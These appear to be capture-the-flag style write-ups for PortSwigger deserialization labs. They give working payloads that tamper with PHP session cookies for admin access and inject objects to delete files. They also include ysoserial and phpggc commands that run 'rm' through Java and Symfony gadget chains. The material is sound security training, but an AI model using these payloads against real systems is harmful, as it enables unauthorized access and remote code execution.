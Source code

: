 ## Modifying serialized objects

[Modifying serialized objects](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)

Write-up:

1. Logging in sets a session cookie: `TzTzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

2. Base-64 decoding this gets us `O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}`
Altering the admin value to 1, re-encoding the cookie and changing it in the lab
gets us admin access. Accessing the admin panel allows us to delete user `carlos`
and solve the lab. 

## Modifying serialized data types

[Modifying serialized data types](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)

Write-up:

1. Session cookie after login: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1NHRhNjMzdnNyM3p2NHVpYjdrYW92aTNta284NXVhOCI7fQ%3d%3d`. 

2. Base-64 decoding this gets us: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"u4ta633vsr3zv4uib7kaovi3mko85ua8";}`

3. Crafting the following payload, base-64 encoding it and setting session cookie gets us admin access and allows us to delete user `carlos` and solve the lab:

    `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`

## Using application functionality to exploit insecure deserialization

[Using application functionality to exploit insecure deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)

Write-up:

1. Decoded session cookie after login as `wiener:peter`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:19:"users/wiener/avatar";}`

2. We craft a payload to delete `morale.txt`: `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sfe5z0dkqi5eq6k09qbpgak1z3gbn7x0";s:11:"avatar_link";s:10:"morale.txt";}`

3. Re-encoding it, setting as session cookie and deleting our account allows us to solve the lab.

## Arbitrary object injection in PHP

[Arbitrary object injection in PHP](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php)

Write-up:

1. Looking at the source code of `/my-account` we find the following: `<!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->`
Attempting to use a GET request to get that file returns nothing. We can use the
hint given and access `libs/CustomTemplate.php~` to retrieve the source code.

    ```php
    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }

        function __destruct() {
            // Carlos thought this would be a good idea
            if (file_exists($this->lock_file_path)) {
                unlink($this->lock_file_path);
            }
        }
    }

    ?>
    ```

2. We can use the ``__destruct()`` function to solve the lab: 
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`

    Setting the `lock_file_path` attribute to `/home/carlos/morale.txt` allows us to
    delete that file once the script is executed (by a GET request to `/libs/CustomTemplate.php`).

3. After base-64 and URL encoding (in that order) the object and setting it as the session cookie, we can make
the GET request to solve the lab:   `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3D%3D`

## Exploiting Java deserialization with Apache Commons

[Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

Write-up:

1. We need to use `ysoserial` to solve this lab. After looking at the documentation,
I was able to use the following command to craft an exploit payload:

    ```
    java -jar ysoserial-all.jar \
    --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
    --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
    --add-opens=java.base/java.net=ALL-UNNAMED \
    --add-opens=java.base/java.util=ALL-UNNAMED \
    CommonsCollections4 'rm /home/carlos/morale.txt' | base64
    ```

    This generates a base64 payload.

2. We can use URL-encode the payload, set it as session cookie, and send a request
to solve the lab.

## Exploiting PHP deserialization with a pre-built gadget chain

[Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

Write-up:

1. We need to find out which framework the application is using. Analyzing the page's
source code shows us a reference to `/cgi-bin/phpinfo.php`. Also, sending a request with 
an invalid cookie shows us an error message that discloses that the web application
is using Symfony Version: 4.3.6.

2. We can use `PGPGGC` to get an exploit: `./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0`
URL-encoding the exploit, setting it as session cookie and sending a request returns an
error: `PHP Fatal error: Uncaught Exception: Signature does not match session`.

3. After further research, I found out the session cookie was a bit more complex.
URL-decoding it reveals:

    ```json
    {
        "token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsdHNiczVmMTU5dmw3ZmZya29jeDlvNGFidnk1bnBiayI7fQ==",
        "sig_hmac_sha1":"39aa1851b62e717d8daf90e88376fa455f1c21dc"
    }
    ```

    It has a token, which corresponds to the object, and a signature, which is a hash
    that involves the object and the SECRET-KEY in `/cgi-bin/phpinfo.php`. We can
    craft a script to get us a valid cookie: `php-cookie.php`

4. Setting the script's output as the session cookie solves the lab. 

## Exploiting Ruby deserialization using a documented gadget chain

[Exploiting Ruby deserialization using a documented gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-ruby-deserialization-using-a-documented-gadget-chain)

Write-up:

1. After some research, we find this [article](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)
Reading it and learning from it allows us to craft the `ruby-gadget-chain.rb` script
that generates a payload: `ruby ruby-gadget-chain.rb` - executable 
on [Ruby 2.x](https://www.tutorialspoint.com/compilers/online-ruby-compiler.htm).

2. URL-encoding the output and setting it as session cookie solves the lab.